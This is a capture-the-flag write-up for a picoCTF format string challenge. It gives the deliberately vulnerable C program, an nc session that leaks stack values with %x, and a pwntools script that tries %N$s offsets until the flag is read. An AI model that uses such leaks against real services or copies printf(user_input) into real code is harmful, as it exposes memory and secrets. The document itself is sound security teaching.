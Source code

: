 Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

<br/>

The line printf(buf); is vulnerable to format strings, let's try to leak address of the stack with %x
```bash
$ nc 2018shell.picoctf.com 46960
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %x %x %x %x %x %x %x 
40 f774b5a0 8048647 f7783a74 1 f775b490 ff90de84
```

<br/>

So, now we have to leak a string so I'll use %s, but if we send too much %s it will cause a segfault, so ill use %<number>$s, but i don't know the the position where the strings is, so i'll bruteforce it. Here the script

<br/>

```python
from pwn import *

host = '2018shell.picoctf.com'
port = 46960

#p = remote(host,port)

for i in range(10):
    p = remote(host,port)
    p.recvuntil('> ')
    p.sendline('%'+str(i)+'$s')
    print(p.recv())
```
